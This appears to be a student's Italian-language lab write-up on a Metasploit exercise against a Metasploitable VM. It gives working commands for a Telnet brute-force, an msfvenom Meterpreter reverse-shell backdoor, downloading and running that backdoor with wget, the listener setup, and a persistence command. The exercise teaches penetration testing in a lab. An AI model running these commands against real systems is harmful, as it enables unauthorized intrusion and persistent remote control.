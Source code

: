 # Consegna S7/L2 | Hacking con Metasploit

## Obiettivo
L'obiettivo di questa esercitazione è stato dimostrare l'uso di **Metasploit Framework** per:
1. Sfruttare una vulnerabilità del servizio **Telnet** su una macchina target Metasploitable.
2. Creare una **backdoor personalizzata** utilizzando **msfvenom**, compilarla per l'architettura a 32-bit e trasferirla sul target per ottenere l'accesso alla shell.

---

## 1. Sfruttamento del servizio Telnet
### Strumenti utilizzati
- **Metasploit Framework (msf6)**
- **Kali Linux**
- **Metasploitable** (target)

### Procedura
1. **Scansione delle porte aperte**: Abbiamo rilevato che il servizio **Telnet** era attivo sulla porta **23** della macchina target utilizzando **Nmap**:
    ```bash
    nmap -p 23 192.168.50.3
    ```
2. **Sfruttamento della vulnerabilità**: Abbiamo utilizzato il modulo **telnet_login** di Metasploit per effettuare un attacco bruteforce e accedere al servizio Telnet.
    
    ```bash
    msfconsole
    use auxiliary/scanner/telnet/telnet_login
    set RHOSTS 192.168.50.3
    set USER_FILE users.txt
    set PASS_FILE passwords.txt
    run
    ```
3. **Accesso alla shell**: Una volta ottenute le credenziali corrette, siamo riusciti ad accedere alla shell Telnet come utente privilegiato.

---

## 2. Creazione e utilizzo della backdoor
### Obiettivo EXTRA
Creare una backdoor personalizzata tramite **msfvenom**, compatibile con la macchina Metasploitable (architettura a 32-bit), e trasferirla sul target per ottenere una sessione Meterpreter.

### Strumenti utilizzati
- **msfvenom** per generare il payload
- **Metasploit Framework (multi/handler)** per ricevere la connessione
- **Python HTTP Server** per trasferire il file
- **wget** per scaricare il file sul target

### Procedura
1. **Creazione del payload con msfvenom**:
   Abbiamo generato un payload **reverse shell** con **msfvenom**, specificando l'architettura a 32-bit e il formato ELF per Linux:
   
   ```bash
   msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f elf -o backdoor_ftp.elf
   ```
   - **`-p`**: Payload specifico per Linux e architettura x86.
   - **`LHOST`** e **`LPORT`**: Indirizzo IP e porta per la connessione inversa.
   - **`-f elf`**: Formato del file eseguibile Linux.
   - **`-o`**: Output del file.

2. **Avvio del server HTTP su Kali**:
   Per trasferire il file, abbiamo avviato un semplice server HTTP con Python:
   
   ```bash
   python3 -m http.server 8080
   ```
   
3. **Scaricamento del file sul target Metasploitable**:
   Utilizzando `wget` sulla macchina Metasploitable, abbiamo scaricato la backdoor nella directory `/tmp`:
   
   ```bash
   cd /tmp
   wget http://192.168.50.2:8080/backdoor_ftp.elf
   ```

4. **Permessi di esecuzione e avvio del file**:
   Abbiamo reso eseguibile il file e lo abbiamo lanciato:
   
   ```bash
   chmod +x backdoor_ftp.elf
   ./backdoor_ftp.elf
   ```

5. **Apertura del listener su Metasploit**:
   Su Kali, abbiamo configurato e avviato il listener con il modulo **multi/handler**:
   
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload linux/x86/meterpreter_reverse_tcp
   set LHOST 192.168.50.2
   set LPORT 4444
   exploit
   ```

6. **Connessione e sessione Meterpreter**:
   Una volta eseguita la backdoor, abbiamo ottenuto una **sessione Meterpreter** che ci ha consentito di:
   - Esplorare il filesystem
   - Catturare informazioni di sistema
   - Caricare o scaricare file
   - Eseguire comandi arbitrari

### Persistenza (opzionale)
Per rendere la backdoor **persistente** sul target, abbiamo utilizzato il modulo `persistence` di Meterpreter:

```bash
run persistence -X -i 5 -p 4444 -r 192.168.50.2
```
- **`-X`**: Installa la backdoor come servizio persistente.
- **`-i`**: Intervallo di riconnessione (ogni 5 secondi).
- **`-p` e `-r`**: Porta e IP per la riconnessione.

---

## Conclusione
Questa esercitazione ha dimostrato come sfruttare vulnerabilità esistenti (Telnet) e come creare backdoor personalizzate con **msfvenom** per ottenere un controllo completo della macchina target tramite **Metasploit Framework**.

Abbiamo affrontato le seguenti sfide:
1. Compilazione a 32-bit per compatibilità con Metasploitable.
2. Trasferimento sicuro ed esecuzione della backdoor.
3. Creazione di una sessione Meterpreter e, opzionalmente, persistenza.

Questi passaggi rappresentano un esempio chiaro di **post-exploitation** e consolidamento dell'accesso su un sistema compromesso.

---

## Autore
Sebastiano | Consegna S7/L2

---

## Note
Questo documento è a scopo puramente educativo e dimostrativo per la sicurezza informatica.
